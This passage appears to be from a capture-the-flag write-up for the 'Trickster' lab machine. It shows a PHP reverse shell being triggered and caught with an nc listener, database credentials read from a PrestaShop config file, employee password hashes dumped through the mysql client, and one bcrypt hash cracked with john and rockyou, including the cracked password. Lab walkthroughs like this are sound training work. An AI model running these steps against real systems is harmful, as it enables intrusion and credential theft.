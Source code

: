 ```
http://trickster.htb/assets/php/reverse_shell.php?port=4444

─➤  rlwrap nc -nvlp 4444                                                            
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.56.43] 57630
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 15:53:33 up  3:17,  0 users,  load average: 0.07, 0.17, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Great, it's working.

Running linpeas, found us db creds

```bash
/var/www/prestashop/app/config/parameters.php:7: 'database_user' => 'ps_user',
/var/www/prestashop/app/config/parameters.php:8: 'database_password' => 'prest@shop_o'
```

We can use mysql cli with `-e` to run cmds, we will use `-e` since we dont have a proper tty shell.

```sql
www-data@trickster:~/trickster/assets/php$ mysql -u ps_user -pprest@shop_o -e 'use prestashop;select id_employee,lastname,firstname,email,passwd from ps_employee';
mysql -u ps_user -pprest@shop_o -e 'use prestashop;select id_employee,lastname,firstname,email,passwd from ps_employee';
+-------------+----------+-----------+---------------------+--------------------------------------------------------------+
| id_employee | lastname | firstname | email               | passwd                                                       |
+-------------+----------+-----------+---------------------+--------------------------------------------------------------+
|           1 | Store    | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C |
|           2 | james    | james     | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm |
+-------------+----------+-----------+---------------------+--------------------------------------------------------------+
```

And we can crack the password with `john` or `hashcat`

```bash
╰─➤  cat james.hash                     
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm

╰─➤  john --wordlist=/usr/share/wordlists/rockyou.txt james.hash                                
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alwaysandforever (?)     
1g 0:00:00:02 DONE (2024-09-22 22:05) 0.3816g/s 14180p/s 14180c/s 14180C/s baloon..191092
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
